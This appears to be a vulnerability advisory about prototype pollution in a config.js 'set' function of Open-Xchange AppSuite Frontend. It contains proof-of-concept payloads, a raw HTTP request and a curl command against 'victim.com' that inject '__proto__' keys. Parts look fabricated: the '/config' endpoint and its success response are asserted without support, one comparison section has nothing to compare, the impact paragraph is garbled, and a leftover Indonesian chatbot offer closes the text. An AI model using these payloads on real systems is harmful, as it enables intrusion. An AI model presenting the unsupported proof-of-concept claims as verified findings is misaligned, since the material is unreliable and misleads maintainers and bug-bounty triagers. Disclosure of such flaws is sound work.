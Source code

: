 # Advisory: Prototype Pollution in `config.js` Function of Open-Xchange AppSuite Frontend

**CVE-ID:** Pending (Example: CVE-2025-XXXXX)
**Affected Project:** [Open-Xchange AppSuite Frontend](https://github.com/open-xchange/appsuite-frontend)
**Affected File:** `ui/apps/io.ox/core/config.js`
**Vulnerability Type:** Prototype Pollution (CWE-1321)
**Severity:** High
**Date Reported:** August 2025
**Discovered by:** Andri ([@pwnosec](https://github.com/pwnosec))

---

## Summary
A **Prototype Pollution** vulnerability exists in the `set` function of `config.js` within the Open-Xchange AppSuite Frontend project.
The function fails to properly sanitize object keys before assignment, allowing attackers to manipulate **prototype chains** by injecting dangerous properties such as `__proto__` or `constructor`. This vulnerability can be exploited to escalate into **denial of service (DoS)**, **arbitrary property injection**, or potentially **remote code execution (RCE)** in applications that rely on polluted objects. The vulnerability resides in the recursive assignment logic of the `set` function at:
* [`line#56`](https://github.com/open-xchange/appsuite-frontend/blob/c4051eaec809de7f0d32f4fc3d1040f701fcd030/ui/apps/io.ox/core/config.js#L56)

```javascript
set: function (key, value) {
    var parts = key.split('.');
    var obj = this.data;
    for (var i = 0; i < parts.length - 1; i++) {
        var part = parts[i];
        if (!obj[part]) {
            obj[part] = {};
        }
        obj = obj[part];
    }
    obj[parts[parts.length - 1]] = value;
}
```

The problem is that `parts` can include dangerous properties like `__proto__` or `constructor`.
When passed as a key, it results in pollution of the object prototype chain, leading to a security issue.


## Vulnerability Flow

1. Attacker crafts input with keys such as `__proto__.polluted` or `constructor.prototype.hacked`.
2. Application calls `config.set()` with the malicious key.
3. Function iterates and assigns values recursively, injecting into prototype chain.
4. Global objects (e.g., `{}`) become polluted with malicious properties.
5. Downstream code that depends on these objects behaves unexpectedly → exploit.

---

## Step-by-Step Technical Flow

1. Normal execution:

   ```javascript
   config.set("user.name", "Andri");
   ```

   → Results in `config.data.user.name = "Andri"`

2. Malicious execution:

   ```javascript
   config.set("__proto__.polluted", "yes");
   ```

   → Results in:

   ```javascript
   {}.polluted === "yes"  // true
   ```

3. All new objects in the runtime environment inherit polluted properties, causing dangerous, global side effects.



## Comparative Analysis
Same root cause: lack of sanitization of dangerous property names and this case affects **frontend JavaScript runtime**, potentially impacting **all browser sessions** using AppSuite.

---

## Vulnerable Code
```javascript
obj[parts[parts.length - 1]] = value;
```


## Proof of Concept (PoC)
### Using BurpSuite (HTTP Request Injection)

```http
POST /config HTTP/1.1
Host: victim.com
Content-Type: application/json
Content-Length: 58

{
  "key": "__proto__.polluted",
  "value": "exploited"
}
```

### Response Verification:
```json
{
  "status": "success"
}
```

```javascript
({}).polluted
// Output: "exploited"
```

## Exploitation Code
```javascript
// PoC Exploit
config.set("__proto__.isAdmin", true);

if (({}).isAdmin) {
    console.log("Exploit Successful: Prototype polluted!");
}
```


## Step-by-Step Full PoC & Setup

1. Clone project:

   ```bash
   git clone https://github.com/open-xchange/appsuite-frontend.git
   cd appsuite-frontend/ui/apps/io.ox/core
   ```

2. Insert PoC in test environment:

   ```javascript
   config.set("__proto__.pwned", "yes");
   console.log({}.pwned); // prints "yes"
   ```

3. Run the project:

   ```bash
   npm install && npm start
   ```

4. Interact with endpoint via Burp or curl:

   ```bash
   curl -X POST https://victim.com/config \
   -H "Content-Type: application/json" \
   -d '{"key":"__proto__.polluted","value":"pwnd"}'
   ```

5. Verify pollution in the running app:

   ```javascript
   console.log(({}).polluted); // "pwnd"
   ```

## Impact
Pollution affects all objects and may alter business logic lead Polluted objects may allow bypass of security checks.
polluted properties interact with unsafe code paths.



Mau saya buatkan juga **versi singkat ala HackerOne report** (step-by-step dengan curl) seperti yang sebelumnya Anda minta untuk MongoDB Node.js Driver, biar bisa langsung dipakai untuk submission?
